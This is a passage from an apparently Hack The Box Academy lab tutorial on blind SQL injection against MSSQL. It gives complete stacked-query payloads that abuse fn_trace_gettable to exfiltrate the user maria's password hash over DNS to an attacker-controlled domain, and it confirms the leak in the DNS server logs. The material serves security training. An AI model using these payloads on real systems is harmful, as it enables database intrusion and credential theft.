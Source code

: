First, let's carry a test attack to ensure the attacks works as expected, as this is an essential step when performing any blind attack, since it is more difficult to identify potential issues later on. Since we are not interested in doing a `Boolean SQL Injection` attack, we will not be using `AND` this time, and will simply inject our above query with a `maria';`:

```sql
maria';DECLARE @T VARCHAR(1024); SELECT @T=(SELECT 1234); SELECT * FROM fn_trace_gettable('\\'+@T+'.blindsqli.academy.htb\x.trc',DEFAULT);--+-

```

Once we send the above query, we should get `taken` confirming that the query did run correctly:
![dns_oob_1234](https://academy.hackthebox.com/storage/modules/177/amdonuts/dns_oob_1234.jpg)

Now, we need to check the DNS logs to confirm that a DNS request was sent with the `1234` sub-domain. To do so, we will go to the `Logs` tab in the DNS server, then `Query Logs`, and finally hit `Query`. As we can see, we did indeed get a couple of hits with the above data:
![dns_server_log_1234](https://academy.hackthebox.com/storage/modules/177/amdonuts/dns_server_log_1234.jpg)

Instead of `(SELECT 1234)`, we want to capture the password hash of `maria`. So, we will replace the query defined within `@T` to the follow:

```sql
SELECT password from users WHERE username="maria";

```

**Note:** We should always ensure that whatever query we choose only returns `1` result, or our attack may not work correctly and we would need to `concatenate` all results into a single string.

Of course, we still need to encode the result, as it may contain non-ASCII characters which would not comply with DNS rules and will break our attack. So, we replace the `@T` declaration with the following (as shown earlier):

```sql
DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), password), 1) from users WHERE username="maria"; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63);

```

Now, we can stack both queries, while also replacing `@T` in the domain with `@A` and `@B`, and our final injection payload will look as follows:

```sql
maria';DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), password), 1) from users WHERE username='maria'; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63); SELECT * FROM fn_trace_gettable('\\'+@A+'.'+@B+'.blindsqli.academy.htb\x.trc',DEFAULT);--+-

```

We run the query, and get `taken` confirming it executed correctly:
![dns_oob_full_query](https://academy.hackthebox.com/storage/modules/177/amdonuts/dns_oob_full_query.jpg)

Finally, we check the DNS logs again, and indeed we do find our encoded result:
![dns_server_log_full_query](https://academy.hackthebox.com/storage/modules/177/amdonuts/dns_server_log_full_query.jpg)
